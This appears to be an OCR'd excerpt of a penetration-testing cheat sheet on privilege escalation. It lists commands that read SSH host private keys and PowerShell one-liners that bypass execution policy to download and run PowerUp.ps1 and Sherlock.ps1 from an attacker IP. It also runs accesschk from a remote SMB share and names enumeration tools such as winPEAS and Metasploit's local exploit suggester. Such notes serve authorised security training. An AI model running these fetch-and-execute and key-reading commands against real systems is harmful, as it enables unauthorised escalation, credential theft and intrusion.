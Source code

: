 ````
cat /etc/ssh/ssh_host_rsa_key
cat /etc/ssh/ssh_host_key.pub
cat /etc/ssh/ssh_host_key
````


## Windows PrivEsc


### Windows - Automated Tools

````
Run winpeas 
Run PowerUp.ps1
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.155/PowerUp.ps1');Invoke-AllChecks"

Run Sherlock.ps1
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.155/Sherlock.ps1');Find-AllVulns"

accesschk.exe /accepteula -wvu
Folder Perms 
\\192.168.119.155\test\accesschk.exe /accepteula -uwdqs "Authenticated Users" C:\
\\192.168.119.155\test\accesschk.exe /accepteula -uwdqs "Everyone" C:\
File Perms 
\\192.168.119.155\test\accesschk.exe /accepteula -uwqs  "Authenticated Users" C:\*.*
\\192.168.119.155\test\accesschk.exe /accepteula -uwdqs "Everyone" C:\*.*

Run JAWS

# Executables  
WinPEAS.exe /.bat * 
Seatbelt.exe 
Watson.exe * 
Sharpup.exe 
windows-privesc-check2.exe --dump -G

#Powershell 
Sherlock.ps1 * 
PowerUp.ps1 * 
jaws-enumps1 * 


#Other 
Windows-exploit-suggester.py *
Systeminfo -> a text file and run it with windows exploit suggester.py, search for exploit in SecWiki github 

MSF exploit suggester *
In a meterpreter session – run /post/multi/recon/local_exploit_suggester - > shows list of kernel
````
